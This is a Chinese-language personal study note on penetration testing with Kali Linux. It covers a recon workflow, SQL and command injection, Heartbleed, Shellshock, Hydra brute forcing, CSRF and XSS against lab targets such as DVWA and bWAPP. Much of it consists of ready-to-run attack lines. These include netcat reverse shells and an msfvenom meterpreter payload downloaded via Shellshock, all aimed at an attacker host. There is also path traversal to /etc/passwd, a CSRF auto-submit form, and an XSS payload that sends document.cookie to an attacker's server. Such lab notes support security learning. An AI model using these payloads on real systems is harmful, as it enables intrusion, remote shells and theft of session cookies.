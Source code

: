 # kali

## 下载安装

下载地址：<https://www.kali.org/downloads/.html>，选择`Kali Linux 64 bit Vbox`，跳转到[Offensive Security Download Page](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)，选择`Kali Linux VirtualBox Images`选项卡，选择`Kali Linux Vbox 64 Bit Ova - Torrent`，下载种子文件。

下载torrent工具：[BitComet](http://www.bitcomet.com/en)

在VirtualBox中导入kali-linux-2019.1-vbox-amd64.ova

root默认密码：toor

## 渗透过程

1. DNS解析域名子域名，看有哪些IP，了解服务器组网。
2. Nmap扫描开放了哪些port，对应端口运行哪些服务，服务版本，OS版本。
3. 若存在Web服务器，查看https协议版本和使用的加密套件。
4. F12查看页面元素是否存在隐藏域。
5. 尝试修改cookie。
6. 获取robots.txt查找后台入口。
7. 爬虫所有链接获取更多URL，进一步了解后台及部署了哪些应用。
8. burpsuite拦截修改请求，如上传文件把`content-type: text/html`改成`image/png`，修改`User-Agent`。
9. burpsuite intruder爆破爬取URL
10. repeater多次修改请求
11. 用户身份在客户端请求参数中携带，如id，篡改。
12. 请求参数指定URL路径，可构造任意远程页面如`http://192.168.56.11/dvwa/vulnerabilities/fi/?page=http://192.168.56.10/index.html`，使服务器加载外部页面，或目录跨越`../../../../../etc/passwd`
13. 上传文件在web目录下，获取上传存储路径，通过burpsuite修改content-type，上传php，获取webshell。

### SQL注入

1. 使用orderby获取到列数，再用unoion查询其他信息如`@@version`, `currentuser()`, `informationschema.tables`
1. 通过SQL注入`n=char_length(current_user())`，burp intruder爆破数据库用户名长度
1. `currentuser like 'a@%`爆破每个字符
1. 通过sleep时间盲注
1. 通过SQLMap检测SQLi，查询表数据，数据库其他用户信息，sqlshell

### 命令注入

#### 检测到存在命令注入时

1. 提交`ls /bin/nc*`查看是否存在netcat
1. 在攻击者监听`nc -lp 1234 -v`
1. 在命令注入`nc.traditional -e /bin/bash x.x.x.x 1234 &`反弹shell

#### 利用metasploit的msfvenom来创建一个可执行程序，反弹shell

1. 执行`msfvenom -p linux/x86/meterpreter/reverse_tcpLHOST=192.168.56.10 LPORT=4443 -f elf > cute_dolphin.bin`，ip为攻击机
1. 打开msfconsole创建侦听
```bash
use exploit/multi/handler
set payloadlinux/x86/meterpreter/reverse_tcp
set lhost 192.168.56.10
set lport 4443
run
```
1. 启动服务器存放bin提供下载，命令注入wget获取bin: `() { :;}; echo "Vulnerable:" $(/bin/sh-c "/usr/bin/wget http://192.168.56.10/cute_dolphin`
1. 执行`() { :;}; echo "Vulnerable:"$(/tmp/cute_dolphin.bin")`

#### linux提权

1. 检查linux提权工具`unix-privsc-check`
1. 在shell中使用upload命令上传文件
1. 使用`sudo -l`显示可以sudo的所有命令


### 利用已知漏洞

#### OpenSSL HeartBleed内存缓冲区溢出，影响TLS1.0 1.1

1. 使用命令`sslscan x.x.x.x:8443`检查协议版本及存在漏洞
1. 使用命令`searchsploit heartbleed`查找`exploit-db`安装位置
1. 使用工具Exploit-DB: <https://www.exploit-db.com/>，执行`python /usr/share/exploitdb/platforms/multiple/remote/32764.py 192.168.56.12  -p  8443`泄漏内存

#### shellshock

bash允许通过环境变量中的函数执行命令。

!!! info "前提"
    在php或cgi脚本中调用了系统命令（shell脚本）

1. 对于shell请求`/bWAPP/cgi-bin/shellshock.sh`，将请求头中的Referer字段替换为`(){:;};echo"Vulnerable:"`，响应回显`Vulnerable`
1. 注入`(){:;};echo "Vulnerable:" $(/bin/sh-c "/sbin/ifconfig")`
1. 开启监听: `nc -vlp 12345`
1. 注入webshell: `(){:;};echo "Vulnerable:" $(/bin/sh -c "nc -e/bin/bash 192.168.56.10 12345")`

bash将函数存储为环境变量，函数结束后继续执行命令。CGI将请求映射到环境变量。


## 安全维度

### 一、身份验证

- 用户名口令：登录，注册，重置密码等页面枚举用户名比较响应时间，intruder爆破，字典爆破口令。
- 基本身份验证：使用Hydra进行Authorization: basic base64code=爆破：`hydra -Luser_list.txt -P top25_passwords.txt -u -e ns http-get://192.168.56.11/WebGoat`。
    - -u 先迭代用户名，防止被锁定
    - -e ns 使用空密码

!!! tip
    每个用户最多使用四次登录尝试：1. 空，2. 与用户名相同，3. 123456

- 摘要身份验证：MD5(用户名，密码，nonce)
- NTLM/Windows身份验证：持久连接交换challenge
- Kerberos身份验证：Windows凭证登录
- Bearer tokens
- 爆破tomcat部署webshell


### 二、会话管理

#### cookie中的会话标识

!!! warning
    如果cookie中的sessionID没有httponly，若存在xss，可以发送恶意请求。

- 会话固定：构造恶意链接诱骗用户点击，使用其预设的SESSIONID
- burp sequencer分析sessionid是否随机：获取存在set-cookie的响应，发送到sequencer，分析cookie，解码获取中的sessionid

##### CSRF

POC：创建一个页面，包含form指向攻击请求地址。 --> 在javascript里自动提交。 --> 诱骗受害者在同一个浏览器中访问该页面。

```html tab="使用脚本自动提交"
<form action="http://www.baidu.com" method="POST" id="csrf_form">
    <input name="description" value="">
</form>
<script>
    var form = document.getElementById("csrf_form");
    form.submit();
</script>
```

```html tab="在body加载时提交"
<script>
function dosubmit() {
    document.getElementById(form).submit()
}
</script>
<body onload=dosubmit()></body>
```

##### XSS

特征：输入`<`原样显示，查看源码未做编码，可先用`<h1>`尝试。

POC：

- `<script>alert('xss')</script>`
- `<img src=x onerror="javascript:alert('xss')">`
- 闭合如`<input value="输入的内容">`：`" onmouserover="javascript:alert('xss')` --> `<input value="输入的内容" onmouseover="javascript:alert('xss')">`
- 在href属性中注入链接或者其他事件，使用户在点击的时候触发：`<a href="javascript:alert('xss')">点击我</a>`

!!! example "示例"
    - 利用XSS获取cookie：启动一个服务器接收请求，利用XSS发送请求`<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>`，获取受害者cookie。
    - 利用XSS获取HTML5本地存储`<script>alert(window.localStorage.MessageOfTheDay);</script>`或会话存储`<script>alert(window.sessionStorage.getItem("Secure.AuthenticationToken"));</script>`
    - 利用XSS诱骗受害者下载运行HTA获取反弹shell


#### token


## 特征

- BASE64：包含大小写字母数字+/，以%3D(==)结尾
- SHA1：40位16进制字符串，每个16进制代表4位，40x4=160位
